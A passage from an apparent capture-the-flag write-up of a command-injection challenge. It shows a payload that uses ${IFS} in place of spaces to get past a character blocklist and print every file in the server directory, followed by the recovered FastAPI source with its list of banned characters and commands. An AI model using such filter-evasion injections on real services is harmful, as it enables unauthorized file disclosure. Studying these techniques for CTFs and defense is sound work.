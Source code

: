 So let's read the source code with following payload.

Payload: ``ls${IFS}-p${IFS}${IFS}|${IFS}xargs${IFS}-I${IFS}{}${IFS}cat${IFS}{}``

Basically, this command prints out everything in current directory.

!["reading source"](22.png "reading source")

Clean up the code and it'll become as follows.

```python
from fastapi import FastAPI, Request
from fastapi.responses import HTMLResponse
from fastapi.staticfiles import StaticFiles
from fastapi.templating import Jinja2Templates
import os
import subprocess

app = FastAPI(docs_url=None, redoc_url=None)
# app.mount("/static", StaticFiles(directory="static"), name="static")
templates = Jinja2Templates(directory="templates")

@app.get("/", response_class=HTMLResponse)
async def root(req: Request):
    return templates.TemplateResponse("index.html", {"request": req, "id": id})

invalid_chars = [
    " ",
    "less",
    "more",
    "head",
    "tail",
    "grep",
    "awk",
    "sed",
    "flag",
    "txt",
    "base",
    "*",
    "/",
    ";",
    "[",
    "]",
    "\\\"",
    "\\",
    "?"
]
```